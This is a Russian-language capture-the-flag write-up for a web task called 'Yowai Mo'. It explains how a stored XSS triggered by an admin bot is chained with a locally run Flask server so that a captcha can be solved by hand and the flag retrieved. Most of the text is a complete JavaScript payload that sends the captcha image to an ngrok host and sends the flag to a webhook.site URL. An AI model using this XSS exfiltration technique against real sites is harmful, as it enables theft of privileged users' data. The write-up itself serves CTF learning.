



# Writeup на таск Yowai Mo

При заходе на основную страницу видим картину:


Внимательно читаем исходники и видим что бекенд принимает 3 поля уязвимые XSS-у и при создании поста бот авторизуется с аккаунта админа и переходит на страницу нового поста, тем самым тригеря XSS. 


Дальше смотрим код и видим функцию которая требует решенную капчу и возвращает флаг.


Я пришел к выводу что нужно сделать следующие действия:
1. Поднять веб-сервер локально который принимает капчу в формате base64/png
2. Пейлоад(xss) возьмет капчу с /generate/captcha.png и отправит на мой веб-сервер
3. Как я получаю капчу у себя локально, пытаюсь за 15 секунд решить
4. Пейлоад на фронтенде ждет когда веб-сервер вернет решенную капчу, после этого отправляет запрос для решения капчи и запрос для получения флага, полученный флаг отправляет на мой вебхук

Код веб-сервера:
```python
# server on flask that tooks image from post request and saves to disk

import os
from base64 import b64decode

from flask import Flask, request, jsonify, Response
from flask_cors import CORS

app = Flask(__name__)
cors = CORS(app)

@app.route('/upload', methods=['POST'])
def upload():
    img = b64decode(request.get_data().decode().split('base64,', 1)[1])
    with open('image.png', 'wb') as f:
        f.write(img)
    print(request.content_length)
    os.system('start image.png')
    return jsonify({'message': 'image saved'})

@app.route('/captcha', methods=['GET'])
def captcha():
    with open('captcha.txt', 'r') as f:
        text = f.read()
    return Response(text, mimetype='text/plain')

if __name__ == '__main__':
    app.run(port=5000)

```

Код пейлоада.

```html
<script>
var xhr1 = new XMLHttpRequest();
xhr1.open('GET', '/generate/captcha.png', true);
xhr1.responseType = 'blob';
xhr1.onload = function() {
    var reader = new FileReader();
    reader.onload = function() {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('POST', 'http://0.tcp.in.ngrok.io:17412/upload', true);
        xhr2.send(reader.result);
        setInterval(captcha_polling, 3000);
    };
    reader.readAsDataURL(xhr1.response);
};
xhr1.send();
function captcha_polling() {
    var xhr3 = new XMLHttpRequest();
    xhr3.open('GET', 'http://0.tcp.in.ngrok.io:17412/captcha', true);
    xhr3.onreadystatechange = function() {
        if (xhr3.readyState == 4) {
            if (xhr3.response == '0')
                return;
            var captcha_solution = xhr3.response;
            var xhr4 = new XMLHttpRequest();
            xhr4.open('POST', '/validate-captcha', true);
            xhr4.onreadystatechange = function() {
                if (xhr4.readyState == 4) {
                    var text = xhr4.response;
                    var z=new Image(); 
                    z.src="http://webhook.site/ce483c69-e3fe-40f2-b31d-758004227b9e?captcha_response=" + encodeURIComponent(captcha_solution) + " " +text+" " +xhr4.status;
                    var xhr5 = new XMLHttpRequest();
                    xhr5.open('GET', '/getWhatawant', true);
                    xhr5.onreadystatechange = function() {
                        var p=new Image(); 
                        p.src="http://webhook.site/ce483c69-e3fe-40f2-b31d-758004227b9e?"+xhr5.response;
                    };
                    xhr5.send();
                };
            };
            xhr4.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr4.send("captchaInput="+captcha_solution);
        };
    };
    xhr3.send();
};
</script>
```